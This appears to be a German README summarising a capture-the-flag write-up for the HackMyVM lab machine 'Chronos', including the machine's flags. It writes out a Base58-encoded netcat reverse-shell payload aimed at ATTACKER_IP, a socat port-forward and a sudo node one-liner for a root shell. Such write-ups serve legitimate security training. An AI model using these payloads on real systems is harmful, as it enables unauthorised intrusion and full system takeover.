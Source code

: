 # Chronos - HackMyVM (Medium)

![Chronos Icon](Chronos.png)

## Übersicht

*   **VM:** Chronos
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Chronos)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 30. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Chronos_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Chronos" von HackMyVM (Schwierigkeitsgrad: Medium) erforderte die Ausnutzung mehrerer Schwachstellen, um Root-Zugriff zu erlangen. Der erste Zugriffspunkt war eine Command Injection-Schwachstelle in einer Node.js-Anwendung (Port 8000), die über einen Base58-kodierten Parameter in einem `/date`-Endpunkt ausgenutzt wurde. Dies führte zu einer Shell als `www-data`. Die Privilegienerweiterung zum Benutzer `imera` erfolgte durch die Ausnutzung einer Prototyp-Pollution-Schwachstelle in einer zweiten, nur lokal erreichbaren Node.js-Anwendung (EJS/express-fileupload). Schließlich ermöglichte eine unsichere `sudo`-Regel für `imera` die Ausführung von `node` als Root, was zur finalen Kompromittierung führte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `curl`
*   CyberChef (für Base58 De-/Encoding)
*   Burp Suite
*   `nc` (netcat)
*   `python3` (für Shell-Stabilisierung und Exploit-Skript)
*   `stty`
*   `socat` (für Port Forwarding)
*   `wget`
*   `EJS-RCE-attack.py` (Exploit-Skript)
*   `node` (für Exploitation und PrivEsc)
*   Standard Linux-Befehle (`ls`, `cat`, `uname`, `sudo`, `cd`, `netstat`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Chronos" verlief in folgenden Etappen:

1.  **Reconnaissance:**
    *   Ziel-IP (`192.168.2.115`, Hostname `chronos.local`) via `arp-scan` und `/etc/hosts`-Eintrag identifiziert.
    *   `nmap` zeigte offene Ports: 22 (OpenSSH 7.6p1), 80 (Apache 2.4.29) und **8000** (Node.js Express Framework).

2.  **Web Enumeration (Port 8000):**
    *   Der Apache-Server auf Port 80 bot wenig Angriffsfläche.
    *   Der Node.js-Dienst auf Port 8000 hatte einen `/date`-Endpunkt, der einen `format`-Parameter akzeptierte.
    *   Analyse (u.a. mit Base58-Dekodierung eines Beispiel-Payloads) ergab, dass der Parameter einen Datumsformatstring (vermutlich für `date` oder eine ähnliche Funktion) erwartete. Das führende `'+'` in einem dekodierten Beispiel deutete auf eine Command Injection-Möglichkeit hin.

3.  **Initial Access (RCE via Node.js Date Format - www-data):**
    *   Ein Reverse-Shell-Befehl wurde konstruiert, dem `'+;` vorangestellt und der gesamte String Base58-kodiert.
        *   Payload: `'+; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f'`
        *   Base58 kodiert: `2FKaCgCDhrKDtPk3bLhEKFzdkb681KiAmhhBzVoyVfzgkyBLM3dA97yHrZXeEwYs1K8fb8ssVzmwxHaedKHj2mw2LYQ2kdFujaLSrdwbsFL7ky`
    *   Der kodierte Payload wurde via GET-Request an `http://chronos.local:8000/date?format=[PAYLOAD]` gesendet.
    *   Eine Reverse Shell als Benutzer `www-data` wurde erfolgreich etabliert.

4.  **Privilege Escalation (www-data zu imera):**
    *   Enumeration als `www-data` deckte eine zweite Node.js-Anwendung im Verzeichnis `/opt/chronos-v2/backend` auf, die auf `127.0.0.1:8080` lauschte und EJS sowie `express-fileupload` (mit `parseNested: true`) verwendete – bekannt für Prototyp-Pollution-Schwachstellen.
    *   Mittels `socat TCP-LISTEN:5555,fork TCP:127.0.0.1:8080` wurde der interne Port 8080 auf den extern erreichbaren Port 5555 weitergeleitet.
    *   Das Exploit-Skript `EJS-RCE-attack.py` wurde heruntergeladen und angepasst, um eine Reverse Shell zum Angreifer-Port 9003 zu senden und das Ziel über den weitergeleiteten Port 5555 (`http://192.168.2.115:5555`) anzugreifen.
    *   Ausführung des Exploits führte zu einer Reverse Shell als Benutzer `imera`.
    *   Die User-Flag wurde aus `/home/imera/user.txt` gelesen.

5.  **Privilege Escalation (imera zu root):**
    *   `sudo -l` für `imera` zeigte: `(ALL) NOPASSWD: /usr/local/bin/npm` und `(ALL) NOPASSWD: /usr/local/bin/node`.
    *   Die `sudo`-Regel für `node` wurde ausgenutzt:
        `sudo -u root node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`
    *   Dies führte direkt zu einer Root-Shell.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Command Injection via Format String:** Im Node.js-Dienst auf Port 8000 durch unsichere Verarbeitung eines Base58-kodierten Datumsformat-Parameters.
*   **Prototype Pollution (EJS & express-fileupload):** In der zweiten Node.js-Anwendung (Chronos-v2), die zu RCE führte.
*   **Port Forwarding mit `socat`:** Um einen nur lokal erreichbaren Dienst für den Exploit zugänglich zu machen.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte die Ausführung von `node` (und `npm`) als Root ohne Passwort, was eine direkte Privilegienerweiterung ermöglichte.
*   **Node.js-Schwachstellen:** Mehrere Schwachstellen in Node.js-Anwendungen waren der Schlüssel zur Kompromittierung.

## Flags

*   **User Flag (`/home/imera/user.txt`):** `byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK`
*   **Root Flag (`/root/root.txt`):** `YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK`

## Tags

`HackMyVM`, `Chronos`, `Medium`, `Node.js`, `Command Injection`, `Base58`, `Prototype Pollution`, `EJS`, `express-fileupload`, `socat`, `Sudo Privilege Escalation`, `Web`, `Linux`
